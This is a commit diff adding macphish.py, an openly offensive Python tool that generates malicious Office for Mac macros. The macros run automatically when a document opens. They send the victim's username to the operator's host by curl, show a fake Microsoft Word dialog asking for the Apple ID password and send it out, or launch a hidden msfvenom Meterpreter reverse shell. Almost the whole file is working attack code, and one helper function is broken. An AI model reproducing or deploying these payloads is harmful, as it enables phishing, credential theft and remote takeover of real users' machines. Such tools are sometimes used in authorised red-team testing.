

Adds macphish.py

Changed region(s): [[0.0, 0.0, 0.974, 0.4284], [0.0, 0.459, 0.6088, 1.0]]

diff --git a/macphish.py b/macphish.py
@@ -1,0 +1,365 @@
+#!/usr/bin/python
+###############################################################################
+#MIT License
+#
+#Copyright (c) 2017 Paulino Calderon Pale
+#
+#Permission is hereby granted, free of charge, to any person obtaining a copy
+#of this software and associated documentation files (the "Software"), to deal
+#in the Software without restriction, including without limitation the rights
+#to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
+#copies of the Software, and to permit persons to whom the Software is
+#furnished to do so, subject to the following conditions:
+#
+#The above copyright notice and this permission notice shall be included in all
+#copies or substantial portions of the Software.
+#
+#THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
+#IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
+#FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
+#AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
+#LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
+#OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
+#SOFTWARE.
+###############################################################################
+# Macphish (https://github.com/cldrn/macphish/)
+# Version: 1BETA-DRAGONJARCON
+# Author: Paulino Calderon <calderon@websec.mx>
+#
+# Macphish - Office for Mac Macro Payload Generator
+#
+# Usage: ./macphish -h
+#
+# Attack modes:
+# * beacon: Phone home beacon 
+# * creds: Credential phishing with osascript
+# * meterpreter: Meterpreter
+# * meterpreter-grant: Meterpreter with GrantAccessToMultipleFiles()
+#
+
+import argparse
+import sys
+import os
+import getopt
+import logging
+import subprocess
+import distutils.spawn
+from random import choice
+from string import ascii_letters
+
+NAME = "MacPhish"
+VERSION = "1BETA-DRAGONJARCON"
+URL = "https://github.com/cldrn/macphish"
+AUTHOR = "Paulino Calderon <paulino@websec.mx>"
+MACPHISH_LOG = "macphish.log"
+
+def banner():
+  banner = """
+               MACPHISH
+           MACPHISHMACPHISH               
+       MACPHISHMACPHISHMACPHI           S
+    HMAC   PHISHMACPHISHMACPHIS        HM $$\      $$\                     $$$$$$$\  $$\       $$\           $$\ 
+  ACPHIS   HMACPHISHMACPHISHMACP     HISH $$$\    $$$ |                    $$  __$$\ $$ |      \__|          $$ |   
+MACPHISHMACPHISHMACPHISHMACPHISHM   ACPHI $$$$\  $$$$ | $$$$$$\   $$$$$$$\ $$ |  $$ |$$$$$$$\  $$\  $$$$$$$\ $$$$$$$\  
+  MACPHISHMACPHISHMACPHISHMACPHISHMACPHIS $$\$$\$$ $$ | \____$$\ $$  _____|$$$$$$$  |$$  __$$\ $$ |$$  _____|$$  __$$\ 
+      HMACPHISHMACPHISHMACPHISHMACPHISHMA $$ \$$$  $$ | $$$$$$$ |$$ /      $$  ____/ $$ |  $$ |$$ |\$$$$$$\  $$ |  $$ |
+  CPHISHMACPHISHMACPHISHMACPHISHMACPHISHM $$ |\$  /$$ |$$  __$$ |$$ |      $$ |      $$ |  $$ |$$ | \____$$\ $$ |  $$ |
+ACPHISHMACPHISHMACPHISHMACPHISHMAC PHISHM $$ | \_/ $$ |\$$$$$$$ |\$$$$$$$\ $$ |      $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |
+  ACPHISHMACPHISHMACPHISHMACPHISH    MACP \__|     \__| \_______| \_______|\__|      \__|  \__|\__|\_______/ \__|  \__|
+    HISHMACPHISHMACPHISHMACPHISH       MA
+       CPHISHMACPHISHMACPHISH           M  %s (%s)
+         ACPHISHMACPHISHMAC                Mac macro payload generator (%s)
+           PHISHMACPHISH                   Author: %s
+              MACPHISH
+""" % (NAME, VERSION, URL, AUTHOR)
+  return banner
+
+def find_msfvenom():
+    if os.name == "nt":
+        msfvenom_path = distutils.spawn.find_executable("msfvenom.exe", os.environ["PROGRAMFILES(X86)"]+"\Metasploit")
+        if not(msfvenom_path):
+            msfvenom_path = distutils.spawn.find_executable("msfvenom.exe", os.environ["PROGRAMFILES"]+"\Metasploit")
+    else:
+        msfvenom_path = distutils.spawn.find_executable("msfvenom","/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin")
+
+    return msfvenom_path
+
+def random_name():
+  rnd = ''.join(choice(ascii_letters) for i in range(12))
+  return rnd
+
+def gen_beacon_template(lhost, random=False):
+  if not random:
+    macro = """
+Sub AutoOpen()
+#If Mac Then
+  i = MacScript("return short user name of (system info)")
+  MacScript ("do shell script ""curl http://%s/" & i & "\"\"")
+#Else
+  ' Enter your Windows macro here!
+#End If
+End Sub
+""" % (lhost)
+  else:
+    rnd = random_name()
+    macro = """
+Sub AutoOpen()
+#If Mac Then
+  %s
+#Else
+  ' Enter your Windows macro here!
+#End If
+End Sub
+
+Sub %s()
+i = MacScript("return home directory of (system info)")
+MacScript("do shell script ""curl http://%s/" & i & "\"\"")
+End Sub
+""" % (rnd, rnd, lhost)
+  return macro
+
+def gen_macro(payload, random, prefix=''):
+  if random:
+    rnd = random_name()
+    macro = """
+Sub AutoOpen()
+#If Mac Then
+  %s
+#Else
+  ' Enter your Windows macro here!
+#End If
+End Sub
+Sub %s()
+%s
+MacScript("%s")
+End Sub
+""" % (rnd, rnd, prefix, payload)
+  else:
+    macro = """
+Sub AutoOpen()
+#If Mac Then
+  %s
+  MacScript("%s")
+#Else
+  ' Enter your Windows macro here!
+#End If
+End Sub
+""" % (prefix, payload)
+  return macro
+
+def meterpreter_payload(lhost, lport, payload, options):
+  logging.info("Generating payload with msfvenom: %s (%s) %s:%s", lhost, lport, payload, options)
+  path = find_msfvenom()
+  if not path:
+    print "Can't find msfvenom. Exiting..."
+    exit()
+
+  outfile = "%s_%s_%s.py" % (lhost, lport, payload.replace("/", "-"))
+  cmd = "%s -p %s -f raw LHOST=%s LPORT=%s -o %s" % (path, payload, lhost, lport, outfile)
+  logging.debug(cmd)
+  proc = subprocess.Popen(cmd.split(), shell=False)
+  proc.wait()
+
+  payload_file = open(outfile, 'r') 
+  payload = payload_file.read()
+  payload_file.close()
+
+  logging.debug(payload)
+  return payload
+
+def beacon_template(payload, payload2, random):
+  if random:
+    rnd = random_name()
+    macro = """
+Sub AutoOpen()
+#If Mac Then
+  %s
+#Else
+  ' Enter your Windows macro here!
+#End If
+End Sub
+
+Sub %s()
+t=MacScript("%s")
+TestArray = Split(t)
+pass = TestArray(3)
+pass = Split(pass, ":")
+user = MacScript("return short user name of (system info)")
+leak = MacScript("%s & user & "/" & pass(1) & "\"\"")
+End Sub
+""" % (rnd, rnd, payload, payload2)
+  else:
+    macro = """
+Sub AutoOpen()
+#If Mac Then
+  t=MacScript("%s")
+  TestArray = Split(t)
+  pass = TestArray(3)
+  pass = Split(pass, ":")
+  user = MacScript("return short user name of (system info)")
+  leak = MacScript("%s & user & "/" & pass(1) & "\"\"")
+#Else
+  ' Enter your Windows macro here!
+#End If
+End Sub
+""" % (payload, payload2)
+  return macro
+
+def write_macro(filename, content):
+  logging.debug("Saving macro to file %s" % filename)
+  fp = open(filename, "w")
+  fp.write(content)
+  fp.close()
+
+def macscript(payload, macro, rnd):
+  logging.debug("Generating macscript command-> payload:%s macro:%s random name:%s" % (payload, macro, rnd))
+  str = "do shell script \"%s\"" % (payload)
+  if macro:
+    str = escape_vba(str)
+    str = gen_macro(str, rnd)
+  logging.debug("Macscript command: %s" % str )
+  return str
+
+
+def gen_beacon(lhost, macro, random):
+  logging.debug("Generating beacon-> lhost:%s Generate macro:%s Random name:%s" % (lhost, macro, random))
+  payload = ""
+  if lhost:
+    payload = "curl http://%s/" % (lhost)
+    logging.debug("Setting payload to '%s'" % payload)
+  else:
+    logging.debug("No lhost defined")
+    return False
+  return macscript(payload, macro, random)
+
+def gen_exfil_cmd():
+  str = ""
+  return cmd
+
+def gen_osascript_dialog(msg, title, icon):
+  cmd = "/usr/bin/osascript -e 'display dialog \"%s\" & return & return default answer \"\" with icon %s with hidden answer with title \"%s\"'" % (msg, icon, title)
+  cmd = escape_macscript(cmd)
+
+  return cmd
+
+def gen_dialog_payload(lhost, macro, random, custom_msg = None, custom_title = None, custom_icon = None):
+  logging.debug("Generating dialog phishing attack-> lhost:%s Generate macro:%s Random name:%s" % (lhost, macro, random))
+  if custom_msg:
+    msg = custom_msg
+  else:
+    msg = "Microsoft Word needs your Apple ID password to decrypt this secure file"
+
+  if custom_title:
+    title = custom_title
+  else:
+    title = "Microsoft Word"
+  
+  if custom_icon:
+    icon = custom_icon
+  else:
+    icon = "caution"
+
+  str = "do shell script \"%s\"" % gen_osascript_dialog(msg, title, icon)
+  str2 = gen_beacon(lhost, False, False)
+  str2 = escape_vba(str2[:-1])
+  str2 = str2 + "\""
+  if macro:
+    #log.debug("generating macro")
+    str = escape_vba(str)
+    str = beacon_template(str, str2, random)
+  return str
+
+def gen_meterpreter(lhost, lport, payload, opts, macro, random):
+  logging.info("Generating meterpreter payload for %s:%s", lhost, lport)
+  meterpreter = meterpreter_payload(lhost, lport, payload, opts)
+  python_payload = "\"%s\"" % meterpreter
+  python_payload = escape_macscript(python_payload)
+  str = "do shell script \"python -c %s &> /dev/null \"" % python_payload
+ 
+  if macro:
+    str = escape_vba(str)
+    str = gen_macro(str, random)
+    out = lhost + "_" + lport + "_" + "_" + payload.replace("/", "-") + ".macro" 
+    print "Saved macro as:%s" % out
+    write_macro(out, str)
+  return str
+
+def gen_grantaccesstomultiplefiles(lhost, lport, payload, opts, random):
+  logging.info("Generating meterpreter with GrantAccessToMultipleFiles() for %s:%s", lhost, lport)
+  meterpreter = meterpreter_payload(lhost, lport, payload, opts)
+  python_payload = "\"%s\"" % meterpreter
+  python_payload = escape_macscript(python_payload)
+  str = "do shell script \"python -c %s &> /dev/null \"" % python_payload
+
+  user_gen =  """
+#If MAC_OFFICE_VERSION >= 15 Then
+  a = MacScript("return short user name of (system info)")
+  GrantAccessToMultipleFiles(Array("/Users/" & a & "/Documents/"))
+#End If
+""" 
+  grant = ""
+  
+  str = escape_vba(str)
+  str = gen_macro(str, random, user_gen)
+  out = lhost + "_" + lport + "_" + "_" + payload.replace("/", "-") + ".macro" 
+  print "Saved macro as:%s" % out
+  write_macro(out, str)
+  return str
+
+#Transforms '"' into '""' (VBA escaping)
+def escape_vba(str):
+  str = str.replace('"', '""')
+  return str
+
+#Transforms '"' into '\"' (Macscript escaping)
+def escape_macscript(str):
+  str = str.replace('"', '\\"')
+  return str
+
+def main():
+  print(banner())
+  parser = argparse.ArgumentParser(description="Macscript payload generator")
+  parser.add_argument("-d", "--debug", action="store_true", dest="debug", 
+                  help="Enable debugging")
+  parser.add_argument("-r", "--random-name", action="store_true", dest="random", default=False, help="Use random function name")
+  parser.add_argument("-m", "--macro", action="store_true", dest="macro", help="Generate office macro")
+  parser.add_argument("-a", "--attack", dest="mode", default="beacon", help="Attack type: beacon, creds, meterpreter, meterpreter-grant")
+  parser.add_argument("-lh", "--lhost", dest="lhost", help="lhost: Listening host", required=True)
+  parser.add_argument("-lp", "--lport", dest="lport", help="lport: Listening port", required=False)
+  parser.add_argument("-opts", "--meterpreter-options", dest="opts", help="Meterpreter opts")
+  parser.add_argument("-p", "--payload", dest="payload", help="Meterpreter payload type")
+  parser.add_argument("-t", "--creds-title", dest="title", help="Title used in creds phishing dialog")
+  parser.add_argument("-msg", "--creds-msg", dest="msg", help="Message used in creds phishing dialog")
+  parser.add_argument("-i", "--creds-icon", dest="icon", help="Icon used in creds phishing dialog")
+
+  if len(sys.argv)==1:
+    parser.print_help()
+    sys.exit(1)
+
+  args = parser.parse_args()
+  
+  if args.debug:
+    logging.basicConfig(filename='macphish.log', level=logging.DEBUG)
+    logging.info("macphish running in verbose mode.")
+  if args.mode:
+    logging.info("payload type:%s" % args.mode)
+    if args.mode == "beacon":
+      print gen_beacon_template(args.lhost, args.random)
+    elif args.mode == "creds":
+      print gen_dialog_payload(args.lhost, args.macro, args.random, args.title, args.msg, args.icon)
+    elif args.mode == "meterpreter":
+      if args.payload:
+        print gen_meterpreter(args.lhost, args.lport, args.payload, args.opts, args.macro, args.random)
+      else:
+        print "This attack mode requires the payload type (-p). Ex. -p python/meterpreter/reverse_https"
+        sys.exit(1)
+    elif args.mode == "meterpreter-grant":
+      if args.payload:
+        print gen_grantaccesstomultiplefiles(args.lhost, args.lport, args.payload, args.opts, args.random)
+      else:
+        print "This attack mode requires a payload type (-p). Ex: -p python/meterpreter/reverse_https"
+        sys.exit(1)
+    else:
+      parser.print_help()
+      sys.exit(1)
+if __name__ == "__main__":main()
